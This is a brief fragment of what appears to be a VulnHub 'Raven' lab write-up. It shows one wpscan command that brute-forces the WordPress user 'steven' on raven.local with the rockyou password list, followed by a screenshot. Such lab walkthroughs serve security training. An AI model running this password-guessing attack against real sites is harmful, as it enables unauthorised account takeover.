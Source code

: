 test
Cracking user steven with wpscan tools

#Command : wpscan --url raven.local -usernames steven -passwords /usr/share/wordlists/rockyou.txt

<img width="708" alt="image" src="https://github.com/psfauzi/Vulnhub_Like_OSCP/assets/49013900/5ee84fd3-b7e9-4677-81bf-120888c9125d">
